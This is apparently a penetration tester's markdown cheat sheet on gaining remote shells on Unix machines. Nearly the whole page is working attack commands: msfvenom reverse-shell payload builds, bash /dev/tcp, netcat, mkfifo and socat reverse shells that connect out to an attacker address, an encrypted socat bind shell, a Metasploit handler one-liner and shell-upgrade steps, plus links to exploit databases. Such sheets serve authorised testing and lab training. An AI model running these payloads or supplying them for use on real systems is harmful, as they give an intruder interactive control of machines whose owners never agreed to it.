 # Unix Remote Code Execution

## msfvenom

Shell File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
```

Encoders

``` bash
msfvenom  --list encoders
```

## Bash Reverse Shell

> Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

``` bash
/bin/sh -c 'sh -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/sh -c '0<&60-;exec 60<>/dev/tcp/myip/443;sh <&60 >&60 2>&60'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e /bin/sh
```

> Netcat OpenBsd

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

> Netcat BusyBox

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Nmap NSE Scripts Exploit

``` bash
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

``` bash
stty -a
```

``` bash
stty rows 41 columns 172
```

## msfconsole multi handler

``` bash
sudo msfconsole -x "use exploit/multi/handler; set RHOST ip; set PAYLOAD windows/shell_reverse_tcp; set LHOST tun0; exploit"
```

``` bash
processing AutoRunScript 'post/windows/manage/migrate'
```

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">PayloadsAllTheThings</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

	[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

=== "Offline"

	SearchSploit

	Metasploit Framework

	BeEF